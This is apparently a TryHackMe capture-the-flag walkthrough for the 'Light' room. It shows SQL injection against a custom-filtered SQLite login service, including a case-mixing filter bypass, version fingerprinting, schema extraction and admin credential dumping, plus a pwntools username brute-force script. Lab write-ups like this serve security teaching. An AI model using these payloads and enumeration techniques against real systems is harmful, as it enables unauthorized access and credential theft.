 # **Easy - Welcome to the Light database application!**
https://tryhackme.com/room/lightroom

I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using ``nc 10.10.22.91 1337``
You can use the username smokey in order to get started.

# Initial Reconnaissance
Target: ``10.10.22.91``

We connect with
``nc 10.10.22.91 1337``
and enter username smokey which gives us 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Only SSH and the custom 1337 service when we nmap
```
sudo nmap -p- 10.10.73.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 05:19 EDT
Nmap scan report for 10.10.73.73
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

Nmap done: 1 IP address (1 host up) scanned in 422.69 seconds
```

# Findings
- We try some obvious admin credentails, no luck
- We try the username and password with SSH, no luck
- We hit it with a large username list, we get users like alice although no admin. included the script at the end of this walk through for those intrested
- We hit with some SQLi and find there is some custom filtering, the most likely entry

```
Please enter your username: ``' or 1=1 --``
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
# Exploiting Findings

We find some weakness in the filtering we remove -- to find it by-passes filter but we get an syntax error, 
```
Please enter your username: ' or 1=1 
Error: unrecognized token: "' LIMIT 30"

Please enter your username: ' or '1'='1' 
Error: unrecognized token: "'1'' LIMIT 30"
```
In the error we see two '' where we have injected the SQL, so to get around the sytax error we remove ' from the end of our injection,
```
Please enter your username: ' or '1'='1  
Password: tF8tj2o94WE4LKC
```

Now what SQLtype? more filtering to overcome 
```
Please enter your username: ' UNION SELECT @@version'
Ahh there is a word in there I don't like :( 
```
Union Select Looks to bypass filters, 

```
Please enter your username: SELECT                                                                                                                                                                                                                                     
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: UNION                                                                                                                                                                                                                                      
Ahh there is a word in there I don't like :(                                                                                                                                                                                                                           
Please enter your username: Select                                                                                                                                                                                                                                     
Username not found.                                                                                                                                                                                                                                                    
Please enter your username: Union                                                                                                                                                                                                                                      
Username not found.                                                                                                                                                                                                                                                    
Please enter your username:      
```

Back to find SQL type

### MySQL
```
Please enter your username: ' Union Select @@version'                                                                                                                                                                                                                  
Error: unrecognized token: "@"  
```

### PostgreSQL
```
Please enter your username: ' Union Select version()'                                                                                                                                                                                                                  
Error: no such function: version      
```

### SQLite - Bingo we get a hit
```
Please enter your username: ' Union Select sqlite_version()'                                                                                                                                              
Password: 3.31.1  
```

### Find the table name
```
Please enter your username: ' UnIoN SeLeCt name FROM sqlite_master WHERE type='table
Password: admintable
```

### Find the columns name
```
Please enter your username: ' UnIoN SeLeCt sql FROM sqlite_master WHERE name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

### What is the admin username?
```
Please enter your username: ' UnIoN SeLeCt username FROM admintable'
Password: ##########
```
### What is the password to the username mentioned in question 1?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable where username = '##########
Password: ##########
```

### What is the flag?
```
Please enter your username: ' UnIoN SeLeCt password FROM admintable'
Password: ##########
```

# Summary 
Nice room to show why custom built frameworks for preventing SQLi is a bad idea and to use [prepared statements](https://www.sqlite.org/c3ref/stmt.html). Also a good room for showcasing locating SQL version and extracting tables and column data. It took me a bit to long to start with SQLi and was focused on bruteforcing, although I do enjoy a pwntools script so was a bit of a side challenge. Including bruteforcing script below as while it didn't work it's a good showcase for pwntools so included in the walkthrough even though it was a failed path.  

# Failed exploration 

## Setting up pwntools for kali 
```
mkdir -p /home/kali/pwntools
python3 -m venv /home/kali/pwntools
source /home/kali/pwntools/bin/activate
pip install pwntools
```
## bruteforce script
``nano lightbrute.py``

```
from pwn import *
import requests

# Target details
host = "10.10.22.91"
port = 1337
username_url = "https://raw.githubusercontent.com/jeanphorn/wordlist/refs/heads/master/usernames.txt"

# Download the username list
print("[*] Downloading username list...")
try:
    response = requests.get(username_url, timeout=10)
    response.raise_for_status()
    usernames = response.text.splitlines()
    print(f"[+] Loaded {len(usernames)} usernames.")
except requests.RequestException as e:
    print(f"[!] Failed to download usernames: {e}")
    exit(1)

# Start a single session
print(f"[*] Connecting to {host}:{port}...")
conn = remote(host, port, timeout=5)

# Read initial welcome message
welcome_message = conn.recvuntil(b"Please enter your username:").decode().strip()
print(f"[+] Received: {welcome_message}")

# Try each username in the same session
for username in usernames:
    print(f"[*] Trying username: {username}")
    
    conn.sendline(username)  # Send the username
    response = conn.recvuntil(b"Please enter your username:").decode().strip()  # Read the response

    print(f"[+] {username} → {response}")

    if "Username not found." not in response:
        print(f"\n🔥 Possible valid username found: {username} 🔥\n")
        break  # Stop once a valid username is found

# Close connection
conn.close()
print("[*] Username enumeration completed.")

```

``python3 lightbrute.py``

